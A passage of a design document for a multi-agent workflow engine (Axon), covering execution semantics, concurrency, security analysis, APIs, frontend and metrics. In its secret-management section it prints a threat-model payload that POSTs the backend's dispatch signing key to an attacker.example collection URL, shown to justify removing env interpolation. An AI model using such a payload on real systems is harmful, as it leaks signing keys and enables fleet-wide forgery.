> **Decision: v1 does not evaluate a language. It parses a fixed grammar.** No `eval`, no `new
> Function`, no `vm`. The expression is parsed at workflow-save time into a small AST; anything
> that does not fit the grammar is rejected before it can ever be stored.

**v1 grammar — deliberately not Turing-complete:**

```
expr    := path op literal
path    := "$.steps['" stepId "']." field ( "." field )*     // max depth 5
op      := "===" | "!==" | ">" | ">=" | "<" | "<="
literal := string | number | boolean | null
```

```typescript
/** Parsed at save time, stored as an AST. Never re-parsed from a raw string at run time. */
function evaluateGuard(condition, run, predecessorStepId) {
  if (!condition) return true;                  // no guard ⇒ edge always activates

  const { pathSegments, op, literal } = condition.ast;   // validated on save
  const actual = readPath(run, pathSegments);            // pure property walk, no execution

  switch (op) {
    case '===': return actual === literal;
    case '!==': return actual !== literal;
    case '>':   return typeof actual === 'number' && actual >  literal;
    case '>=':  return typeof actual === 'number' && actual >= literal;
    case '<':   return typeof actual === 'number' && actual <  literal;
    case '<=':  return typeof actual === 'number' && actual <= literal;
    default:
      // Unreachable: op is constrained by the save-time parser.
      logger.warn({ predecessorStepId, op }, 'unknown guard operator; failing closed');
      return false;
  }
}
```

**Correct Pino usage.** The first draft wrote `logger.error('msg', { edge, error })`. Pino's
signature is `logger.error(mergingObject, message)` — arguments reversed, the object would be
swallowed and the log rendered useless. It also logged the **entire edge**, whose expression may
embed a literal that is sensitive. Log the step id and the operator; never the full expression or
step output. This is the project's "never log full payloads" rule.

**Routing semantics:**
- A guard that evaluates false means the edge **does not activate**. It does not directly skip the
  successor — `joinSatisfied` (§2.3.3) decides that, since under `any`/`nOf` another edge may still
  carry it.
- A malformed or unresolvable guard **fails closed**: the edge does not activate.
- `readPath` returning `undefined` is a normal false, not an error.

**Deferred to v2 with a real sandbox, not before:** boolean composition (`&&`, `||`), arithmetic,
string functions, and regular expressions. Each expands the attack surface and none is needed to
express "did the previous step succeed?", which is what v1 exists to answer.

---

### 2.4 Handling Step Completion and Retries

**On step success:**
1. Engine receives ACK from agent.
2. Engine updates StepRun to SUCCEEDED, stores output.
3. Engine queries ready steps; enqueues any newly ready steps.
4. If all steps are done, WorkflowRun transitions to SUCCEEDED.

**On step failure:**
1. Engine receives an error from the agent, or the timeout expires.
2. If `attempts.length < maxAttempts`, append a new attempt and return the step to READY.
3. Otherwise set `terminal: true` and leave `status` as FAILED or TIMEOUT.
4. **The run fails only if the failure is unrecoverable in the graph** — see below.

> **Correction — "Engine marks WorkflowRun as FAILED" was too aggressive.** A terminally failed
> step does not necessarily doom the run. Under an `any` or `nOf` join a sibling may still satisfy
> the successor, and a guarded branch may be designed to absorb failure. Failing the run on the
> first terminal step defeats both features described elsewhere in this document.
>
> **Rule:** on a terminal step failure, run `onStepTerminal` normally. The run transitions to
> FAILED only when **no `StepRun` remains non-terminal and at least one terminal failure was never
> routed around** — that is, when the DAG has no remaining path to completion. Concretely: if every
> step is terminal and any step is `FAILED`/`TIMEOUT` with `terminal: true`, the run is FAILED;
> if every step is terminal and none failed, it is SUCCEEDED.

**Backoff calculation — with jitter:**
```typescript
function nextBackoffMs(attemptNumber, policy) {
  const { backoffMs, backoffMultiplier, maxBackoffMs } = policy;
  const raw = backoffMs * Math.pow(backoffMultiplier, attemptNumber - 1);
  const capped = Math.min(raw, maxBackoffMs);
  // Full jitter. Without it, N steps failing on one agent outage retry in lockstep
  // and re-storm the agent the moment it returns.
  return Math.floor(Math.random() * capped);
}
```

> **Correction — the first draft had no jitter and said "the worker sleeps before re-queuing."**
> Both are wrong. Deterministic backoff synchronises retries into a thundering herd, which is
> exactly the failure mode a shared agent outage produces. And a *sleeping worker is a blocked
> worker* — it holds its slot doing nothing, so a burst of retrying steps starves the pool.
>
> Use a **delayed queue entry** instead: BullMQ's `{ delay }` option re-delivers the job later and
> frees the worker immediately. The project already depends on BullMQ; no new mechanism is needed.

---

## 3. Concurrency and Correctness

### 3.1 Race Windows and Mitigations

| Race | Scenario | Mitigation |
|------|----------|-----------|
| **Double-dispatch** | Two workers both acquire lock for same step | Distributed lock (SETNX + TTL) on step run |
| **Split-brain dispatch** | Worker A sends dispatch, worker B doesn't see ACK and sends again | Fencing token gates the **result write**, so the stale worker cannot corrupt state. Suppressing the second *execution* requires the agent-side `(stepRunId, attempt)` cache described in §2.3.2 — **which does not exist today and must be built.** |
| **Lost dispatch ACK** | Agent receives, executes, sends ACK, but network drops before backend sees it | Step re-queues after the 60s worker TTL. The re-dispatch carries a **higher** fencing token; the agent's dedup cache keyed on `(stepRunId, attempt)` suppresses re-execution. **The step may still execute twice** — see 3.2. |
| **Ready step before predecessor writes** | Thread A completes step, thread B reads DB before A writes, misses edge | All step-completion updates commit in a single transaction; readiness is evaluated only after commit |
| **Condition eval on stale data** | Step A completes, condition reads A's output before commit | Condition eval happens in the same transaction as step completion |
| **Unbounded retry churn** | A step fails repeatedly and re-enqueues forever | `attempts.length ≤ maxAttempts` is the hard bound; the run is additionally capped by `maxRunDurationMs` with the EXPIRED reaper (§2.1). (The earlier entry cited `queue.ready` / `queue.active`, which no longer exist — see §1.3.) |

### 3.2 Delivery Guarantee

**Claim: At-least-once delivery with idempotent execution.**

- The queue (Redis) is durable; an unacknowledged message will retry.
- The engine may dispatch the same step more than once — on worker crash, on a lost ACK, or on a
  lock expiring under a GC pause.
- The agent keeps a bounded dedup cache keyed on `(stepRunId, attempt)`. A dispatch it has already
  seen is ACKed without re-executing.
- The fencing token guarantees that a **stale writer's result is rejected**: a worker that stalled
  past its lock TTL and resumed carries a lower token, and its write to `StepRun` is refused.

**What this does and does not buy you — state it precisely:**

| Guarantee | Holds? |
|---|---|
| A step is *dispatched* at least once | ✅ |
| A stale worker's *result* can corrupt run state | ❌ — fencing prevents it |
| A step's side effects occur exactly once | **❌ NO** |

**The side effect can happen twice.** If the agent executes a command and the process dies before
writing its dedup entry, the retry executes the command again. The dedup cache narrows the window;
it does not close it. **Any step whose command is not itself idempotent can double-execute, and the
product must say so plainly in the UI.** Steps carry an `idempotent: Boolean` flag; the builder
warns on non-idempotent steps that have retries enabled.

**This does NOT claim exactly-once**, and no phrasing anywhere in this document should imply it.
Exactly-once side effects across a network boundary require the effect and the acknowledgement to
commit atomically, which is impossible when the effect happens on a machine we do not control.
At-least-once delivery with idempotent execution is the honest and complete answer.

> ⚠️ **Deployment prerequisite.** The transaction guarantees in 3.1 require MongoDB
> **multi-document transactions**, which need a replica set. `docker-compose.yml` currently runs a
> standalone `mongo:7` — transactions will fail there. Either convert dev Mongo to a single-node
> replica set (`--replSet rs0` plus an init step) or restructure completion to a single-document
> atomic update. **This is a v1 blocker and is not yet resolved.**

### 3.3 Concurrency Model: Shared-Nothing Workers

**Engine workers are stateless and disposable.** Each worker:
1. Pulls a task from Redis queue.
2. Acquires lock; if fails, sleeps and re-enqueues (backoff).
3. Reads from DB (snapshot isolation).
4. Writes results back to DB (single transaction).
5. Enqueues next tasks.

**No in-memory state is shared between workers.** Each worker is disposable; killing it mid-flight causes the lock to expire and another worker to retry.

**Concurrency issues are prevented by:**
- Redis lock for mutual exclusion on step execution.
- Database transactions (MongoDB session) for atomic reads/writes.
- Fencing tokens for agent-side deduplication.

### 3.4 Ordering Guarantees

**What we guarantee:**
- Dependencies are honored: a step does not run until all predecessors complete.
- Retry order is FIFO + backoff: failed steps re-queue after backoff delay.
- Output propagates: when step A completes, step A's output is visible to step B's condition eval and input mapping.

**What we do NOT guarantee:**
- Execution order among siblings (steps with no dependencies). They run in parallel, not serial.
- Timing: there is no global clock; a step's "completion time" is when the backend receives the ACK, not when the agent's wallclock says it finished.
- Retry order within a single step: if a step fails and retries, the next attempt is queued, but another worker may execute a different step in the interim. Retries are not prioritized.

---

## 4. Security Analysis

### 4.1 Multi-Tenancy

**Enforcement:**
- Every document in `Workflow`, `WorkflowVersion`, `WorkflowRun`, `StepRun` has an `orgId` field.
- Every query filters by `orgId`: `await Workflow.find({ orgId, archivedAt: null })`.
- Routes validate that the authenticated user belongs to the org before reading/writing.

**Implementation pattern (existing in Axon):**
```javascript
// In middleware
const org = req.user.orgId;

// In query
const workflows = await Workflow.find({ orgId: org });
```

**Code review gate:** Any query that omits `orgId` filter is a data-leak vulnerability. This must be caught in CR before merge.

---

### 4.2 Cross-Agent Data Passing — Lateral Movement Risk

**NEW RISK:** A workflow can chain steps across multiple agents and pass data between them. This is powerful (enables complex multi-system orchestration) but creates a new lateral-movement surface.

**Attacker model:**
- Attacker with write access to workflows could create a workflow that:
  - Runs a step on agent A (in network segment A).
  - Captures the output (which may contain secrets, credentials, or sensitive data).
  - Runs a step on agent B (in network segment B).
  - Passes the captured data to agent B, exfiltrating it.

**Mitigations (v1):**
1. **Agent allowlist per workflow:** Each workflow specifies which agents can execute its steps. No implicit agent selection.
   ```typescript
   interface Workflow {
     allowedAgents: ObjectId[]  // Only these agents may run steps
   }
   ```
   At dispatch time, the backend verifies that `step.agentId ∈ workflow.allowedAgents`.

   > ⚠️ **This mitigation does not, on its own, defend against the attacker model stated above.**
   > The attacker was defined as someone with *write access to workflows* — and that same person
   > can add both agent A and agent B to `allowedAgents`. The allowlist only constrains a workflow
   > author who is already trusted.
   >
   > It becomes a real control **only with role separation**: `allowedAgents` must be settable by
   > an admin/security role and immutable to the workflow author, in the same way
   > `PATCH /jobs/:id/permissions` is `authAdmin`-gated today while job editing is not. **Decide
   > this before v1** — retrofitting a permission boundary after workflows exist is far more
   > expensive than designing it in. Until then, the honest statement is that cross-segment
   > exfiltration is prevented by operational review (mitigation 4), not by the product.

2. **Output redaction:** Step outputs are captured and passed to downstream steps. A step's output should be validated against its `outputSchema` and truncated/redacted before storage.
   ```typescript
   // In StepRun, cap output to 1MB
   if (output.length > 1_000_000) {
     output = output.slice(0, 1_000_000) + '\n... (truncated)';
   }
   ```

3. **Audit trail with output hashing:** Every step result is logged via the existing `createAuditRecord()` API. The step output is hashed (not stored in full); on investigation, logs are retrievable but exfiltrated data is immediately visible in audit history.

4. **Network segmentation enforcement (operational):** Agents in different segments run in different VNets/security groups. A workflow referencing agents across segments is approved by the infra team before deployment.

**Mitigations (deferred to v2):**
- Encrypted output at rest (envelope encryption with per-org key).
- DLP policies on step outputs (block keywords, max output size, etc.).
- Approval gates: workflows that reference cross-segment agents require human approval.

---

### 4.3 Dispatch Signing and Agent Verification

**Existing (reused from Job substrate):**
- Backend signs dispatch with HMAC-SHA256 over `{jobId, command, agentId, nonce, timestamp}`.
- Agent verifies signature before executing.
- Workflow steps reuse this mechanism: `jobId` → `stepRunId`, same signing.

**New consideration:** Workflow steps pass data between them. The fencingToken is incremented per step (per attempt). No new signing is needed; reuse existing mechanism.

---

### 4.4 Secret Management in Workflow Definitions

**Risk:** A user might hardcode secrets (API keys, passwords) in a workflow definition.

> ## 🔴 CRITICAL — `$env.VAR_NAME` as specified is a control-plane key-exfiltration primitive
>
> The first draft allowed a workflow definition to interpolate **any** backend environment
> variable. Backend env includes `JWT_SECRET`, `ENCRYPTION_KEY`, and `DISPATCH_SIGNING_KEY`.
>
> The attack is one workflow, no privilege escalation required beyond authoring a workflow:
>
> ```jsonc
> { "command": "http",
>   "payload": { "url": "https://attacker.example/collect",
>                "method": "POST",
>                "body": { "k": "$env.DISPATCH_SIGNING_KEY" } } }
> ```
>
> Leaking `DISPATCH_SIGNING_KEY` lets the attacker forge dispatches to **every agent in the
> fleet** — the exact boundary the HMAC signing exists to defend. `ENCRYPTION_KEY` decrypts sink
> URIs; `JWT_SECRET` forges any session. This is full compromise from an ordinary user action, and
> it also violates the project rule that env is read only through the Zod-validated
> `config/environment.js`, never by arbitrary name.
>
> **Interpolation from process env is removed.** It is not fixable with a denylist — a denylist of
> secret names fails the moment someone adds a new secret.

**Mitigations (v1):**
1. **Secrets are explicit, org-scoped records — never process env.** A workflow references a
   `WorkflowSecret` by id. Resolution checks the secret belongs to the same org as the workflow.
   ```typescript
   interface WorkflowSecret {
     _id: ObjectId
     orgId: ObjectId          // resolution MUST verify this matches the workflow's org
     key: string              // author-facing name, e.g. "PARTNER_API_KEY"
     ciphertext: string       // AES-256-GCM via existing ENCRYPTION_KEY
     createdBy: ObjectId
   }
   ```
   ```jsonc
   // In a workflow definition — an id reference, resolvable only within the org
   { "headers": { "Authorization": { "$secret": "665f...a12" } } }
   ```
   **Resolution happens at dispatch, as late as possible.** The plaintext is placed in the signed
   payload sent to the agent and is **never** written to `StepRun.input`, the audit record, or any
   log. What is persisted is the secret **id**, so the audit trail records which secret was used
   without recording its value.

   **Accepted residual risk, stated plainly:** a workflow author can still route a legitimately
   held org secret to an arbitrary URL. That is inherent to letting users make outbound HTTP calls
   with their own credentials — it is scoped to secrets the org already owns, which is a
   categorically smaller blast radius than leaking the fleet signing key. Egress allowlisting is
   the real control and is deferred to v2; note it as a known gap rather than pretending the
   design closes it.

2. **No hardcoded secrets in audit log:** When an audit record is created for a step, the payload is sanitized to remove common secret patterns (keys, tokens, passwords). This is done before writing to the audit log.

3. **Workflow definition itself is not secret-scanned at creation time** (would be expensive). Instead, do **periodic scanning** of stored workflows (daily background job) to flag suspicious patterns and alert the org admin.

---

### 4.5 Security Review Checklist

**Before any workflow feature ships, the following are non-negotiable:**
- [ ] All queries filter by `orgId`.
- [ ] Multi-tenancy is tested with a repro that attempts cross-org access (must fail).
- [ ] Agent allowlist is enforced; no step can run on an agent not in the allowlist.
- [ ] Step output is capped at 1MB; large outputs are truncated.
- [ ] All step results are audited via `createAuditRecord()`.
- [ ] Dispatch signing reuses existing HMAC mechanism.
- [ ] No hardcoded secrets in workflow definitions or examples.
- [ ] Condition expression evaluation is sandboxed (v1: limited to simple comparisons).

**Security review gate:**
- **Before merge:** `security-auditor` reviews workflow, dispatch, and data-passing code.
- **Before deploy:** Run multi-tenancy integration test in staging.
- **Weekly:** Scan production workflows for secret patterns.

---

## 5. API Surface

### 5.1 REST Endpoints

All endpoints require `Authorization: Bearer <JWT>` and filter results by the authenticated user's org.

#### Workflow Definition Management

```
POST /api/workflows
  Request: { name, description, steps, edges, tags, config }
  Response: { workflowId, versionId, ... }
  Status: 201

GET /api/workflows
  Query: { skip, limit, tags, status (archived | active) }
  Response: { workflows: [...], total }
  Status: 200

GET /api/workflows/:workflowId
  Response: { workflow with embedded steps/edges }
  Status: 200

PUT /api/workflows/:workflowId
  Request: { name, description, steps, edges, config, releaseNotes }
  Response: { workflowId, versionId (new version created) }
  Status: 200

DELETE /api/workflows/:workflowId
  Status: 204 (soft delete)

PATCH /api/workflows/:workflowId/archive
  Status: 200

GET /api/workflows/:workflowId/versions
  Response: { versions: [...], total }
  Status: 200

GET /api/workflows/:workflowId/versions/:versionNumber
  Response: { version details }
  Status: 200
```

#### Workflow Execution

```
POST /api/workflows/:workflowId/runs
  Request: { input (optional) }
  Response: { runId, status: 'PENDING', ... }
  Status: 201

GET /api/workflows/:workflowId/runs
  Query: { skip, limit, status, createdAfter, createdBefore }
  Response: { runs: [...], total }
  Status: 200

GET /api/workflows/:workflowId/runs/:runId
  Response: { run with embedded stepRuns, queue state, outputs }
  Status: 200

POST /api/workflows/:workflowId/runs/:runId/cancel
  Status: 200

GET /api/workflows/:workflowId/runs/:runId/steps/:stepId
  Response: { stepRun details (all attempts) }
  Status: 200

POST /api/workflows/:workflowId/runs/:runId/steps/:stepId/retry
  Request: { reason (optional) }
  Response: { stepRun with status: 'READY', attempt: 2, ... }
  Status: 200 (only if step is in terminal state and retries not exhausted)
```

#### Built-in Actions (convenience routes)

```
POST /api/workflows/:workflowId/test-run
  Request: { dryRun: true (optional) }
  Response: Simulates execution without actually sending to agents
  Status: 200

POST /api/workflows/:workflowId/validate
  Request: (none)
  Response: { isValid: boolean, errors: [...] }
  Status: 200
```

### 5.2 Socket.IO Events (Live Updates)

> ## 🔴 CRITICAL — the global room broadcast every org's runs to every listener
>
> The first draft had clients join `'workflow-runs'`, described as a *"global feed."* Socket.IO
> rooms carry no authorization of their own: any authenticated user of **any** tenant joining that
> room receives run events for **all** organisations — step statuses, error messages, and step
> output. That is a cross-tenant data leak on the product's most-used screen, and it directly
> contradicts §4.1.
>
> A per-run room is no better on its own: `run:${runId}` is joinable by anyone who can guess or
> obtain a run id, with no check that the id belongs to the caller's org.

**Connection and authorization:**
- Client authenticates with JWT on connect; `orgId` is taken from the **verified token**, never
  from a client-supplied field.
- The org feed is `org:${orgId}` — **derived server-side**. There is no global room.
- Joining `run:${runId}` is server-mediated: the server loads the run, verifies
  `run.orgId === socket.user.orgId`, and refuses otherwise. Clients never call `join` directly.
- On subscribe, re-verify. Org membership can be revoked during a long-lived socket.

**Server → Client:**
```
'run:status-changed'
  payload: { runId, status, updatedAt }

'step:status-changed'
  payload: { runId, stepId, agentId, status, attempt, terminal, errorCode? }

'run:completed'
  payload: { runId, status, completedAt, progress }
```

**Removed: `'step:output'` and the aggregated `outputs` on `'run:completed'`.**
Step output can reach `maxOutputBytes` (1 MiB) and may contain credentials a command printed to
stdout. Pushing that to every subscriber on every step — and the whole aggregate at completion —
is both a data-exposure surface and a fan-out amplifier: a 500-agent fan-out would push 500 MB
through the socket layer.

Outputs are **fetched on demand** over REST for one `StepRun` at a time, subject to the same
org check, so exposure is scoped to a deliberate user action on a single record. The event
carries `errorCode`, not `stderr`, for the same reason.

**Client → Server:**
```
socket.emit('run:subscribe', { runId })
  // Client wants real-time updates for a specific run

socket.emit('run:unsubscribe', { runId })
  // Stop listening to a specific run
```

---

### 5.3 API Conventions

**Naming:**
- Routes: `/workflows/` (not `/workflow/`).
- Actions: POST with action name (e.g., `POST /runs/:id/cancel`, not `DELETE /runs/:id`).

> **Correction — drop the `/api` prefix.** §5.1 specifies `/api/workflows/...`, but no shipped Axon
> route uses `/api`. `backend/server.js:108-113` mounts `/user`, `/jobs`, `/admin`, `/agents`,
> `/audit` at the root. Introducing `/api` for one product means two conventions, one reverse-proxy
> special case, and a Vite dev-proxy entry that differs from every existing one. **Mount at
> `/workflows`.** The section claimed to settle conventions and then contradicted the codebase, so
> settle it here: **`/workflows`, no prefix.**
>
> The brief asked whether to align with or diverge from the existing inconsistent naming
> (`/jobs/createJob` vs `/agents/register`). **Diverge — use REST nouns for the new surface.**
> `POST /workflows`, not `POST /workflows/createWorkflow`. The verb-in-path style is legacy; do not
> propagate it into a product that will outlive it. Leave existing routes alone; renaming them is a
> breaking change with no user benefit.

**Two further corrections to §5.1:**
- `GET /workflows/:id/runs/:runId` is described as returning *"queue state, outputs"*. Both were
  removed in §1.3. It returns the run plus `progress` counters; `StepRun`s are fetched separately
  and paginated (a 1000-step fan-out run has far too many to embed).
- `POST /workflows/:id/runs/:runId/steps/:stepId/retry` is ambiguous under fan-out, where one
  `stepId` maps to N `StepRun`s. Key the route on the **`stepRunId`**, not `stepId`, so the target
  is unambiguous: `POST /workflows/:id/runs/:runId/step-runs/:stepRunId/retry`.

**Response shape (consistent with existing Axon patterns):**
```typescript
interface ApiResponse<T> {
  success: boolean
  data?: T
  error?: string
  meta?: {
    total: number
    page: number
    limit: number
  }
}
```

**Error codes:**
- `400 Bad Request` — validation failure (invalid workflow structure, invalid condition syntax).
- `401 Unauthorized` — missing or invalid JWT.
- `403 Forbidden` — user does not belong to org, or lacks permission for workflow.
- `404 Not Found` — workflow/run/step not found.
- `409 Conflict` — operation not valid for current state (e.g., retry on running step).
- `422 Unprocessable Entity` — semantic error (e.g., circular dependency in DAG).
- `500 Internal Server Error` — engine error, agent communication failure.

---

## 6. Frontend Architecture

### 6.1 Primary Surface: DAG Builder and Visualizer

**Purpose:** Users create, edit, and debug workflows visually; monitor runs in real-time.

**Library choice:** **React Flow** — package **`@xyflow/react`** (v12+).

> **Correction — `reactflow` is the wrong package.** Verified against the React Flow docs via
> context7: the package was renamed `react-flow-renderer` → `reactflow` → **`@xyflow/react`** in
> v12. Installing `reactflow` pins a legacy major. Two further breaking changes the first draft
> would have walked into:
> - **Default import removed.** `import ReactFlow from 'reactflow'` → `import { ReactFlow } from
>   '@xyflow/react'`.
> - **Styles must be imported explicitly**: `import '@xyflow/react/dist/style.css'` (or
>   `base.css`). v11 injected them; v12 does not, so the canvas renders unusable without it.

**Justification:**
- React Flow is battle-tested for DAG visualization (open source, active maintenance).
- Handles pan/zoom efficiently.
- Supports custom node types (we need different visuals for step types: http, shell, etc.).
- Extensible with plugins.
- Alternative considered: Cytoscape (more graph-theory focused, steeper learning curve for non-experts). Rejected: unnecessary complexity.
- Alternative considered: Custom Canvas-based solution. Rejected: high dev cost for the same functionality.

**State management:**
- Zustand for local UI state (selected node, pan/zoom, sidebar expanded, etc.).
- TanStack Query v5 for server state (workflow definitions, run status).
- URL state for filters and run id (search params).

```typescript
/**
 * Zustand holds ONLY editor UI state. It does NOT hold nodes/edges —
 * React Flow owns those; see the correction below.
 */
interface WorkflowEditorStore {
  selectedNodeId: string | null
  selectedEdgeId: string | null
  inspectorOpen: boolean
  actions: {
    selectNode(id: string | null): void
    selectEdge(id: string | null): void
    toggleInspector(): void
  }
}

// TanStack Query v5 — object form only.
useQuery({ queryKey: ['workflow', workflowId], queryFn: () => fetchWorkflow(workflowId) })
useQuery({ queryKey: ['run', runId],           queryFn: () => fetchRun(runId) })
```

> **Three corrections to the first draft's frontend state design.**
>
> **1. TanStack Query v5 does not accept the array-argument form.** The draft wrote
> `useQuery(['run', runId], fn, { refetchInterval: 1000 })` — that is v4. v5 removed the
> overloads; it is `useQuery({ queryKey, queryFn, ... })`. The project is on v5, so the draft's
> examples would not compile.
>
> **2. `refetchInterval: 1000` contradicts the Socket.IO design.** Polling every second *and*
> subscribing to live events means every run screen issues 3,600 needless requests an hour and
> still races the socket. Sockets are the transport; use `setQueryData` on events and keep the
> query for the initial load and reconnect resync.
>
> **3. Zustand must not hold `nodes` and `edges`.** React Flow maintains its own internal node and
> edge state with measured dimensions and selection. Mirroring them into Zustand creates two
> sources of truth that drift on every drag — the classic React Flow integration bug. Use
> `useNodesState`/`useEdgesState` (or a controlled flow) and keep Zustand for UI concerns only.

**Real-time updates via Socket.IO:**
```typescript
useEffect(() => {
  const onStep = (payload) => {
    queryClient.setQueryData(['run', runId], (old) => {
      if (!old) return old;                       // cache may be empty; never spread undefined
      return {
        ...old,
        stepRuns: old.stepRuns.map(s =>
          // Key on stepRunId — under fan-out, many StepRuns share one stepId.
          s._id === payload.stepRunId ? { ...s, status: payload.status,
                                                terminal: payload.terminal } : s
        ),
      };
    });
  };
  socket.on('step:status-changed', onStep);
  return () => { socket.off('step:status-changed', onStep); };   // cleanup: draft leaked a listener
}, [runId, socket, queryClient]);
```

> The draft's handler matched on `s.stepId === payload.stepId`, which under fan-out updates **every
> agent's row at once** — 50 rows flipping to the status of whichever agent reported first. It also
> spread `old` without a null check (crashes on a cold cache) and registered the listener with no
> cleanup, so every remount added another.

**Accessibility:**
- Keyboard navigation: Tab to select nodes, arrow keys to pan, `Delete` to remove.
- ARIA labels on nodes: `role="button" aria-label="Step 1: Fetch data"`.
- Color is not the only differentiator; use icons + text for status (running, success, failed).
- Dark and light mode support (use CSS custom properties).

### 6.2 Component Architecture

**Top-level structure:**
```
src/
├── pages/
│   ├── WorkflowsList.tsx          (list all workflows)
│   ├── WorkflowEditor.tsx         (edit workflow definition)
│   └── RunMonitor.tsx             (monitor a single run)
├── components/
│   ├── dag-builder/
│   │   ├── DAGCanvas.tsx          (React Flow wrapper)
│   │   ├── StepNode.tsx           (custom node component)
│   │   ├── ConditionEdge.tsx      (custom edge with condition label)
│   │   └── DAGControls.tsx        (zoom, fit-view, etc.)
│   ├── run-monitor/
│   │   ├── RunTimeline.tsx        (list of step runs, gantt-style)
│   │   ├── StepDetails.tsx        (sidebar with step I/O, error, retry option)
│   │   └── RunStatus.tsx          (overall run state indicator)
│   └── ui/
│       ├── Button.tsx, Modal.tsx, etc. (shared primitives)
├── hooks/
│   ├── useWorkflowEditor.ts       (DAG state + mutations)
│   ├── useRunMonitor.ts           (run polling + socket)
│   └── useKeyboardNavigation.ts   (accessibility)
├── lib/
│   ├── dag-validation.ts          (cycle detection, bounds checking)
│   ├── socket-client.ts           (Socket.IO subscription logic)
│   └── format.ts                  (time, size, status labels)
└── styles/
    ├── dag-builder.css
    └── run-monitor.css
```

### 6.3 Usability Requirements

**DAG Builder:**
- Click to add step; drag to create edge.
- Double-click step to edit (open modal: name, timeout, retry policy, payload).
- Right-click step to delete.
- Condition editor: visual builder (if/else selector, expression input) or freeform text.
- Validate before save: check for cycles, missing required fields, etc.

**Run Monitor:**
- Timeline view: horizontal bar per step, showing duration and retry attempts.
- Click step to see I/O, error message, stdout/stderr tail.
- Retry button on failed steps (if retries remain).
- Live progress: as steps complete, timeline updates in real-time.

### 6.4 Performance Targets

- DAG with 100 nodes renders in <1s.
- Pan/zoom is smooth (60fps).
- Run monitor updates <100ms after server event (includes Socket.IO latency).
- Bundle size: dag builder + run monitor < 200kb (gzipped). This is tight for React Flow + dependencies; may require code splitting.

---

## 7. Migration and Rollout

### 7.1 Phased Approach

> **Two corrections to the phasing.**
>
> **Fan-out shipped in Phase 0 while fan-in was deferred to Phase 1 — that combination cannot
> work.** Fanning a step across 50 agents produces 50 `StepRun`s; without join semantics the engine
> has no rule for when that step is complete, so the run can never advance past it. Fan-out and
> fan-in are one feature and ship together.
>
> **The Rust agent work appeared in no phase at all.** §2.3.2 establishes that the agent needs a
> `(stepRunId, attempt)` execution cache and a **wire-protocol change**, shipped in lockstep with
> the backend. That is Rust work plus a coordinated release, and it is on the critical path — the
> engine's idempotency story does not hold without it. It cannot be discovered during Phase 0.

**Phase 0 — foundations (agent + protocol):**
- Dispatch payload carries `stepRunId` and `attempt`; both included in the signed canonical
  message (`agent/src/connection.rs:428`).
- Agent-side bounded LRU execution cache; re-ACK on hit without re-executing.
- Versioned so existing job dispatch is unaffected; agent and backend release together.
- **Gate:** no engine work merges until this lands, or v1 ships a known double-execution bug.

**Phase 1 — engine and API:**
- Data model, immutable versioning, execution engine.
- Fan-out **and** fan-in together, with `all` / `any` / `nOf` joins.
- Retries with jittered backoff via delayed queue entries; EXPIRED reaper.
- REST CRUD + run creation/monitoring. Feature flag `WORKFLOWS_ENABLED`, default off.
- MongoDB replica set resolved (see §3.2) — transactions are a hard dependency.

**Phase 2 — surfaces:**
- DAG builder (`@xyflow/react`), run monitor with timeline.
- Socket.IO live updates with org-scoped rooms.
- Guarded edges with the parsed grammar from §2.3.4.

> **On the "4 weeks" estimate:** treat it as unvalidated. It was written before the agent protocol
> work, the replica-set dependency, and the secret-binding model were known, and it did not account
> for a coordinated Rust release. Re-estimate after Phase 0 rather than carrying the original
> number forward.

**Phase 2 (v2, deferred):**
- Sub-workflows (nesting).
- Loops (for-each, while).
- Human approval gates.
- Scheduled triggers (cron, event-based).
- Compensation logic (rollback on failure).

### 7.2 Existing Job Scheduler Coexistence

**Mutual support (no migration required):**
- The Job model is untouched.
- Existing jobs continue to work as-is.
- Cron scheduler (BullMQ, existing) is independent.
- Workflows are opt-in: new products, new API path, separate UI.

**If we later want workflows to trigger jobs (not in v1):**
- Add a step type `job_trigger` that references a Job ID and runs it.
- This is a data-plane integration, not a control-plane change.

### 7.3 Feature Flagging

**Environment variable:**
```
WORKFLOWS_ENABLED=true/false
```

**In backend:**
```javascript
if (!environment.WORKFLOWS_ENABLED) {
  return res.status(404).json({ error: 'Feature disabled' });
}
```

**In frontend:**
```typescript
if (!import.meta.env.VITE_WORKFLOWS_ENABLED) {
  return null; // Don't render Workflows link in nav
}
```

**Deployment:**
- Deploy backend with `WORKFLOWS_ENABLED=false` initially.
- Deploy frontend with feature flag off.
- Run end-to-end tests in staging with flag on.
- Once confident, roll out to a subset of orgs (canary), then all.

---

## 8. Failure Modes and Observability

### 8.1 New Prometheus Metrics

**`orgId` is NOT a label on any metric.** This was the first draft's design and it is wrong — a
tenant identifier is the textbook cause of Prometheus cardinality explosion. With 10k orgs, the
eight metrics below would produce well over 100k active time series before any secondary label is
applied, and every one is retained for the full TSDB window. Existing Axon metrics
(`backend/metrics.js`) use only `status`, `method`, `route`, `queue`, `state` — all small enums.
The new metrics follow that convention.

Per-tenant breakdown is a **logging and database concern**, not a metrics one. `orgId` is already
on every Pino log line and every `WorkflowRun` document; query those when you need per-tenant
detail.

```
# Gauges
axon_workflow_runs_active                        # Active runs, all orgs
axon_workflow_steps_queued{state}                # state: ready | running

# Counters
axon_workflow_runs_total{status}                 # succeeded | failed | cancelled
axon_workflow_steps_executed_total{step_type}    # http | shell
axon_workflow_step_retries_total{step_type}
axon_workflow_step_dispatch_failures_total{reason}  # no_agent | sig_invalid | ack_timeout

# Histograms
axon_workflow_run_duration_seconds{status}
axon_workflow_step_duration_seconds{step_type}
axon_workflow_step_attempt_count{step_type}
```

**Note on histograms:** `percentile` is not a label. A Prometheus histogram exposes `_bucket`
series carrying the `le` label, plus `_sum` and `_count`. Quantiles are computed at query time
with `histogram_quantile(0.95, rate(axon_workflow_step_duration_seconds_bucket[5m]))`. Labelling a
histogram with `percentile` — as the first draft did — produces a metric that cannot be
aggregated across instances and is silently wrong.

**Cardinality bounds:**
- `status`, `state`, `step_type`, `reason` are closed enums with fewer than six members each.
- Total new series stays in the low hundreds regardless of tenant count.
- **Never** label with `orgId`, `workflowId`, `stepId`, `runId`, `agentId`, or any raw
  identifier. Prefix names with `axon_` to match the existing registry.

### 8.2 Logging

**Pino logger with correlation IDs (existing pattern):**
```typescript
const logger = createChildLogger({ module: 'workflow-engine' });

logger.info({
  event: 'step_executed',
  runId,
  stepId,
  agentId,
  durationMs,
  status,
  requestId,  // from middleware
}, 'Step execution completed');
```

**What is logged:**
- Step execution start/complete (with duration).
- Condition evaluation and result.
- Lock acquisition (debug level).
- Dispatch ACK and result.
- Retry attempts.

**What is NOT logged:**
- Full step input/output (too large; log output hashes).
